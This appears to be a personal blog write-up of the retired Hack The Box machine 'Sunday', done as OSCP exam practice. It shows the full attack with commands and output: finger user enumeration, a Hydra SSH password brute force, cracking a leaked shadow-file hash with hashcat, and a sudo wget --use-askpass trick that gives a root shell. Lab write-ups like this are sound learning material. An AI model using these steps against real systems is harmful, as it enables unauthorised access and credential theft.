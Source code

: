 ```yaml
---
date: '2024-08-12'
before : '2024-08-09'
after : '2024-08-13'
title: 'OSCP Prep: Hack The Box Sunday'
categories: ['C-SEC', 'hackthebox', 'full-machine', 'ENG']
summary: 'Solving "Sunday" machine from HTB'
thumbnail: '../contentImages/sunday/sunday.png'
---
```


## 1. Machine Info

Sunday is an easy-rated, retired machine from Hack the Box. Well, I really didn't like this one since it was mainly about guessing or bruteforcing the credentials, including hash-cracking.

![sunday](../contentImages/sunday/sunday.png)

But it was still a good machine to repeat some basic stuffs which we don't always have in our mind.

> As always, let's dive into the machine!

## 2. Recon

Starting with nmap scan:

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ sudo nmap 10.10.10.76 -Pn -sC -sV                                
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 03:45 EDT
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 03:48 (0:00:45 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
```
There is a service named "finger" on port 79. After a quick search:

> The Finger program/service is utilized for retrieving details about computer users. Typically, the information provided includes the user's login name, full name, and, in some cases, additional details.

I can't justify why someone would use this kind of service, but whatever.

## 3. Enumeration

Let's start with a basic interaction

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ echo "root" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46  
```
So it indeed shows us username. 


Let's try user enumeration from PentestMonkey.

```
──(hosan㉿kali)-[~/oscp/htb-box/sunday/finger-user-enum-1.0]
└─$ perl finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 10.10.10.76 -p 79
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

root@10.10.10.76: root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46         ..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
```
So we've got three user: root, sammy, sunny. Pretty obviously, root is (for now) out of scope.

## 4. Initial Foothold

Hmm, but I can't find any remote connection services. Let's try nmap once more with -p-

```
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE   REASON
79/tcp    open  finger    syn-ack ttl 59
111/tcp   open  rpcbind   syn-ack ttl 63
515/tcp   open  printer   syn-ack ttl 59
6787/tcp  open  smc-admin syn-ack ttl 59
22022/tcp open  unknown   syn-ack ttl 63
```

Oh, so there was a ssh service running on port 22022! 


But here was a tricky part: we had to guess the password of our user. It happens if we look at some really old machines from HTB. I tried with days.txt since our user and machine's name is sunday.

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ hydra -L users.txt -P /usr/share/wordlists/seclists/Passwords/days.txt ssh://10.10.10.76:22022  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-18 05:05:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 12480 login tries (l:2/p:6240), ~780 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 12315 to do in 01:15h, 15 active
[STATUS] 155.33 tries/min, 466 tries in 00:03h, 12015 to do in 01:18h, 15 active
[STATUS] 141.57 tries/min, 991 tries in 00:07h, 11490 to do in 01:22h, 15 active
[STATUS] 136.07 tries/min, 2041 tries in 00:15h, 10440 to do in 01:17h, 15 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```

so as a result, we've got sunny:sunday.

```
┌──(hosan㉿kali)-[~]
└─$ ssh sunny@10.10.10.76 -p 22022                                              
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
sunny@sunday:~$ 
```

Got it. But it is truly no fun to brute force or guess some random passwords.

## 5. Shell as sammy & root

I couldn't open user.txt. So let's try privesc. 


After playing around for a while, I found this:

```
sunny@sunday:/backup$ cat agent22.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

So we have this password hash, and I really hate it. And don't forget, that :6445.. at the end is not relevant.

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
hashcat (v6.2.6) starting in autodetect mode
(used autodetection)


┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ cat cracked.txt 
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

So I logged in as sammy. sudo -l shows us:

```
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Looking at GTFObins:

```
-bash-5.1$ TF=$(mktemp)
-bash-5.1$ chmod +x $TF
-bash-5.1$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
-bash-5.1$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# 
```
So I got root. That's it!

## 6. Review

Nah, I really didn't like this one. I tried to find a more "logical" way to get into the machine, but at the end, it was just brute-forcing...

## 7. Source

- HTB 2024
- Me!
